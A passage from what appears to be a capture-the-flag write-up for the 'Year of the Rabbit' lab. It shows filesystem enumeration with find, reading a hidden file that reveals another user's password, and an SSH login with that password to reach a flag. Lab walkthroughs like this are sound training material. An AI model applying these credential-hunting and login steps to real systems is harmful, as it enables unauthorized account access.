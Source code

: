 ```
eli@year-of-the-rabbit:/home/gwendoline$ ls -al
total 24
drwxr-xr-x 2 gwendoline gwendoline 4096 Jan 23  2020 .
drwxr-xr-x 4 root       root       4096 Jan 23  2020 ..
lrwxrwxrwx 1 root       root          9 Jan 23  2020 .bash_history -> /dev/null
-rw-r--r-- 1 gwendoline gwendoline  220 Jan 23  2020 .bash_logout
-rw-r--r-- 1 gwendoline gwendoline 3515 Jan 23  2020 .bashrc
-rw-r--r-- 1 gwendoline gwendoline  675 Jan 23  2020 .profile
-r--r----- 1 gwendoline gwendoline   46 Jan 23  2020 user.txt
```

User flag is there, but we don't have permission. The 's3cr3t' hidding place made me think to the sup3r_s3cr3t_fl4g, so I went to '/var/www/html/' but found nothing that we already found.

Looking for 's3cr3t' on the system:
```
eli@year-of-the-rabbit:/var/www/html/assets$ find / -name "s3cr3t" 2>/dev/null

/usr/games/s3cr3t
```

Interesting, let's check this out.
```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ ls -al
total 12
drwxr-xr-x 2 root root 4096 Jan 23  2020 .
drwxr-xr-x 3 root root 4096 Jan 23  2020 ..
-rw-r--r-- 1 root root  138 Jan 23  2020 .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```

Let's show this message
```
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\! 
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

We now have Gwendoline's access. Let's connect as her and get the flag in her home directory.
```
ssh gwendoline@10.10.46.0  

gwendoline@10.10.46.0's password: MniVCQVhQHUNI


1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```
